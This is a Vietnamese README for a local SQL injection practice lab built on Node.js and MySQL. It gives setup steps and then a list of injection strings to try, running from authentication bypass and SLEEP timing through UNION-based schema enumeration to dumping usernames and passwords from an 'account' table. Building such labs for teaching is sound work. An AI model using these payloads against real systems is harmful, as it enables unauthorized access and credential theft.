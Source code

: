 1. Cài ứng dụng
    - Nodejs
    - MySql
    - Vscode

2. Vào ứng dụng MySql và tạo một database "sql_injection"

3. Import database trong thư mục database vào mysql

4. Mở project bằng Vscode

5. Vào file database.js (src/model/database.js) chỉnh sửa "username" (dòng 5) và "password" (dòng 6) - chính là username và password của database cần kết nối

6. Mở terminal (cmd)

7. Gõ lệnh: 
    - npm install --global yarn (Nếu đã cài yarn thì không cần thực hiện câu lệnh này)
    - yarn
    - yarn start

8. Mở trình duyệt với url: "http://localhost:3000"

9. Các câu lệnh tấn công thử trên web:
    - ' OR 1 = 1 --
    - ' AND SLEEP(1) --
    - ' ORDER BY 4 --
    - ' ORDER BY 5 --
    - ' UNION SELECT 1, 2, 3, 4 --
    - ' UNION SELECT 1, GROUP_CONCAT(TABLE_NAME), 3, 4 FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA= DATABASE() --
    - ' UNION SELECT 1, GROUP_CONCAT(COLUMN_NAME), 3, 4 FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME= 'account' --
    - ' UNION SELECT id, password, username, 4 FROM account --

10. Note:
    - Trường hợp xảy ra lỗi khi chạy "yarn start" xem tại link "https://stackoverflow.com/questions/50093144/mysql-8-0-client-does-not-support-authentication-protocol-requested-by-server"
    - Đằng sau mỗi dấu -- ở phần 8 luôn có 1 dấu cách